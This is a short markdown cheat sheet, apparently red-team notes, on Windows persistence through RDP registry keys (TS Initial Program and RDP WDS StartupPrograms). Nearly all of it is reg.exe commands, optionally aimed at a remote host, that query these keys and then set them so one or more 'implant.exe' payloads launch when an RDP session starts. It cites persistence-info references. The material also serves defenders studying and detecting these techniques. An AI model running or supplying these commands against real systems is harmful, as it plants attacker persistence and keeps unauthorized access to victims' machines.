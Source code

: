 # RDP

## TS Initial Program

If it's set to `0x1` then it indicates the RDP is enabled.

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fInheritInitialProgram

C:\> reg.exe query "[\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v fInheritInitialProgram
```

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /t REG_SZ /v InitialProgram /d "C:\path\to\implant.exe"

C:\> reg.exe add "[\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_SZ /v InitialProgram /d "C:\path\to\implant.exe"
```


> [!NOTE]
> This is optional.

Set the working directory.

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /t REG_SZ /v WorkingDirectory /d "C:\Windows\System32"

C:\> reg.exe add "[\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_SZ /v WorkingDirectory /d "C:\Windows\System32"
```

## RDP WDS Startup Programs

```
C:\> reg.exe query "[\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\StartupPrograms"
```

You can specify multiple values separate with comas (`,`) and **without** spaces.

```
C:\> reg.exe add "[\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\StartupPrograms" /t REG_MULTI_SZ /v <value> /d "C:\path\to\implant_1.exe,C:\path\to\implant_n.exe"
```

---
## References

- [Persistence Info: TS Initial Program](https://persistence-info.github.io/Data/tsinitialprogram.html)

- [Persistence Info: RDP WDS Startup Programs](https://persistence-info.github.io/Data/rdpwdstartupprograms.html)